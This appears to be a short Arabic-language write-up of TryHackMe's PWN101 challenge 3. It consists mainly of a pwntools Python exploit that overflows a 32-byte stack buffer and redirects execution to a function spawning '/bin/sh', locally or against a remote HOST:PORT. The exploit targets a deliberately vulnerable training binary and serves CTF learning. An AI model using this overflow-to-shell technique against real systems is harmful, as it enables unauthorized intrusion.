 # PWN101 (TryHackMe)
## Challenge #3
## write-up : 0xNuLLByte
<br>

>![](img/20220820071127.png)
## الاستغلال
>![](img/20220820071304.png)  

## نكتب سكربت للاستغلال :
>```python
>from pwn import *
>
>'''
>
>function : general
>    char message[32];
>    scanf("%s", message);
>    if (strcmp(message, "yes")) == 0 { ... }
>
>function: admins_only
>    system("/bin/sh")
>
>payload: $PAYLOAD
>
>'''
>
>'''         [32]         [RBP]     [admins_only address]         '''
>PAYLOAD = b"\x90"*32 + b"\x90"*8 + p64(0x401554)
>
>def exploit_l(file: str):
>    p = process(file)
>    p.recv()
>    p.sendline(b"3")
>    input()
>    p.recv()
>    p.sendline(PAYLOAD)
>    p.recv()
>    p.interactive()
>
>def exploit_r(host_port: list):
>    HOST, PORT = host_port[0], host_port[1]
>    c = remote(HOST,int(PORT))
>    c.recv()
>    c.sendline(b"3")
>    c.recv()
>    c.sendline(PAYLOAD)
>    c.interactive()
>
>def main():
>    import sys
>    try:
>        content: str = sys.argv[2]
>        if sys.argv[1] == '-l': exploit_l(content)
>        if sys.argv[1] == '-r': exploit_r(str(content).split(":"))
>    except:
>        print("python exploit.py -l file.out        : for locally  exploit")
>        print("python exploit.py -r HOST:PORT       : for remotely exploit!")
>
>if __name__ == "__main__":
>    main()
>```

![](img/20220820071836.png)  